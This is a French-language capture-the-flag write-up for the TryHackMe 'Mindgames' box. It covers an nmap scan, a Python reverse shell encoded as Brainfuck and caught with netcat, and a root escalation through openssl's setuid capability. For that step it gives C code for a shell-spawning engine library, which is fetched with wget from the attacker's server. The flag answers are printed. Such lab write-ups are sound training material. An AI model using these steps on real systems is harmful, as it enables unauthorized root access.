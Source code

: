 # Mindgames #

## Task 1 Capture the flags ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.56.221 mindgames.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A mindgames.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-01 22:40 CEST
Nmap scan report for mindgames.thm (10.10.56.221)
Host is up (0.033s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=9/1%OT=22%CT=1%CU=35154%PV=Y%DS=2%DC=T%G=Y%TM=612FE79A
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11
OS:NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   32.35 ms 10.9.0.1
2   32.50 ms mindgames.thm (10.10.56.221)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 605.19 seconds
```

Ici on a deux dervices  : 
Le service SSH sur le port 22.   
Le service HTTP sur le port 80.    

![page1](./Task1-01.png)

On voit sur la page principale du code brainfucking, et un interprétateur, mais pas grand chose d'autre.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo echo '+[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.' > bf
tim@kali:~/Bureau/tryhackme/write-up$ beef bf
print("Hello, World")
```

On décode le code brainfuck avec un interprétateur et on trouve un print\(\), ce qui est du python.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234 pour se connecter sur le revershell.   

![page2](./Task1-02.png)

On encode un reverse shell python en brainfuckup.   

![page3](./Task1-03.png)

On le copie le code dans l'interprétateur BrainFuck de la page principle.

**User flag.**

```bash
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.242.245] 48990
$ id
id
uid=1001(mindgames) gid=1001(mindgames) groups=1001(mindgames)
$ cat /home/mindgames/user.txt
cat /home/mindgames/user.txt
thm{411f7d38247ff441ce4e134b459b6268}
```

On obtient un shell.
On voit que l'on a les droit mindgames.   
On lit le fichier user.txt dans le répertoire mindgames.  

La réponse est : thm{411f7d38247ff441ce4e134b459b6268}   


```
getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
```

On voit que openssl a la capacité d'être setuid.    

On chargeant une libraire modifié on peut faire exécuter un shell avec openssl.  
![GTFobins](GTFobins Library load)

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat lib-shell.c 
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id) {
    setuid(0);
    system("/bin/sh");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()

tim@kali:~/Bureau/tryhackme/write-up$ gcc -fPIC -o lib-shell.o -c lib-shell.c 
lib-shell.c: In function ‘bind’:
lib-shell.c:4:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    4 |     setuid(0);
      |     ^~~~~~
tim@kali:~/Bureau/tryhackme/write-up$ gcc -shared -o lib-shell.so -lcrypto lib-shell.o 

tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

----------------------------
cd /tmp
$ wget http://10.9.228.66:8000/lib-shell.so -nv
wget http://10.9.228.66:8000/lib-shell.so -nv
2021-09-02 08:54:50 URL:http://10.9.228.66:8000/lib-shell.so [16216/16216] -> "lib-shell.so" [1]

```

On compile notre librairie qui contient comme charge utile un shell.   
On la transfert sur la machine cible.   

```bash
$ openssl req -engine ./lib-shell.so
openssl req -engine ./lib-shell.so
# id
id
uid=0(root) gid=1001(mindgames) groups=1001(mindgames)
```

On charge notre librairie avec openssl et on obtient un shell root.    

**Root flag.**

# cat /root/root.txt

```bash
cat /root/root.txt
thm{1974a617cc84c5b51411c283544ee254}
```

On lit le fichier root.txt dans le répertoire root.  
On a notre flag.  

La réponse est : thm{1974a617cc84c5b51411c283544ee254}    

